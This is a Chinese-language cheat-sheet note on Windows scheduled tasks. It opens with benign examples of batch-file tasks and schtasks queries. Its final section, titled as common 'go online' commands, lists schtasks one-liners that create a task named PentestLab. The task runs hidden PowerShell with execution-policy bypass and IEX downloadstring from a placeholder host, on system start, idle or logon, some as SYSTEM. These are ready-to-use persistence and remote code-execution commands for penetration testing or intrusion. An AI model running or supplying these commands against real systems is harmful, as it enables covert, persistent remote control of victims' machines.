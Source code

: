 ##### 计划运行多个程序的任务

每个任务仅运行一个程序。 但是，可以创建运行多个程序的批处理文件，然后计划运行批处理文件的任务
1. 使用文本编辑器创建一个批处理文件，其中包含所需的 .exe 文件的名称和完全限定路径

```cmd
# Usages
# <Terminal Name> 不能相同
cmd /c start /b "<Terminal Name>" "<path to executable>" && cmd /c start /b "<Terminal Name>" "<path to executable>"

cmd /c start /b "AppOne" "One.exe" && cmd /c start /b "AppTwo" "Two.exe"
```

2. 将文件另存为 MyApps.bat，打开 schtasks.exe，然后通过键入以下内容创建运行 MyApps.bat  的任务

```cmd
# Usages
schtasks /create /tn <Task Name> /tr "<path to executable>" /sc onlogon

schtasks /create /tn MyApps /tr "C:\MyApps.bat" /sc onlogon
```

##### 查询计划任务

- `/tn <Task Name>`：仅显示指定名称的计划任务
- `/fo <format>`：以指定格式输出结果。例如，`/fo table`以表格形式输出结果，`/fo list`以列表形式输出结果
- `/v`：显示详细信息，包括触发器、操作和状态等

~~~cmd
# 查询全部计划任务
schtasks /query

# Usages:
schtasks /query /tn <Task Name> /v

# 使用/fo list参数以列表形式输出计划任务信息
schtasks /query /fo list

# 获取特定计划任务的详细信息，可以使用/tn <Task Name>参数来指定任务名称
schtasks /query /fo list /tn <Task Name>
~~~

##### 常用上线命令

```cmd
#(X64) - On System Start
schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://IP:8080/ZPWLywg'''))'" /sc onstart /ru System
 
#(X64) - On User Idle (30mins)
schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://IP:8080/ZPWLywg'''))'" /sc onidle /i 30
 
#(X86) - On User Login
schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://IP:8080/ZPWLywg'''))'" /sc onlogon /ru System
  
#(X86) - On System Start
schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://IP:8080/ZPWLywg'''))'" /sc onstart /ru System

#(X86) - On User Idle (30mins)
```